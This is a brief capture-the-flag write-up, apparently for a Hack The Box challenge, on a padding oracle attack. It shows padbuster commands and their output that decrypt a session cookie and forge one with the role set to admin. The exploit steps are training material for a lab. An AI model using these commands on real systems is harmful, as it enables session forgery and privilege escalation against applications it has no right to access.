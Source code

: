 ```yaml
---
title:  "Oracle Padding "
date:   2021-08-05 21:15:00 +0000
categories: [techniques]
tags: [burp, web exploitation]
---
```



STEP 1
======
```
padbuster http://docker.hackthebox.eu:37742 zjtTgJyHOn9YxWLIJu%2BnoDGlL9vvl4RGVm44osvhYXxAkHGGKroFCA%3D%3D --cookies "PHPSESSID=7d5guetet0tj3o1kn8lrd77da0;iknowmag1k=zjtTgJyHOn9YxWLIJu%2BnoDGlL9vvl4RGVm44osvhYXxAkHGGKroFCA%3D%3D" 8 --encoding=0
```

*** Response Analysis Complete ***

The following response signatures were returned:


ID# Freq Status Length Location
    
1 256 302 0 profile.php


STEP 2
======
```
padbuster http://docker.hackthebox.eu:37742/profile.php zjtTgJyHOn9YxWLIJu%2BnoDGlL9vvl4RGVm44osvhYXxAkHGGKroFCA%3D%3D --cookies "PHPSESSID=7d5guetet0tj3o1kn8lrd77da0;iknowmag1k=zjtTgJyHOn9YxWLIJu%2BnoDGlL9vvl4RGVm44osvhYXxAkHGGKroFCA%3D%3D" 8 --encoding=0
```

*** Finished ***

[+] Decrypted value (ASCII): {"user":"bdmin","role":"user"}

[+] Decrypted value (HEX): 7B2275736572223A2262646D696E222C22726F6C65223A2275736572227D0202

[+] Decrypted value (Base64): eyJ1c2VyIjoiYmRtaW4iLCJyb2xlIjoidXNlciJ9AgI=


STEP 3
======
```
padbuster http://docker.hackthebox.eu:37742/profile.php zjtTgJyHOn9YxWLIJu%2BnoDGlL9vvl4RGVm44osvhYXxAkHGGKroFCA%3D%3D --cookies "PHPSESSID=7d5guetet0tj3o1kn8lrd77da0;iknowmag1k=zjtTgJyHOn9YxWLIJu%2BnoDGlL9vvl4RGVm44osvhYXxAkHGGKroFCA%3D%3D" 8 --encoding=0 --plaintext "{\"user\":\"admin\",\"role\":\"admin\"}"
```

*** Finished ***

[+] Encrypted value is: LDRCU61StZbYrdIXPROTGIprI45i7IsYMAovrw2IGp8AAAAAAAAAAA%3D%3D


STEP 4
======
We add the newly made encrypted value of "role=admin" to the cookies and we find the flag.


Before
------
![img-description](/images/Oracle-Padding-1.png)
_BEFORE - encrypted value of "role=admin" to the cookies_


After
-----
![img-description](/images/Oracle-Padding-2.png)
_AFTER - encrypted value of "role=admin" to the cookies_



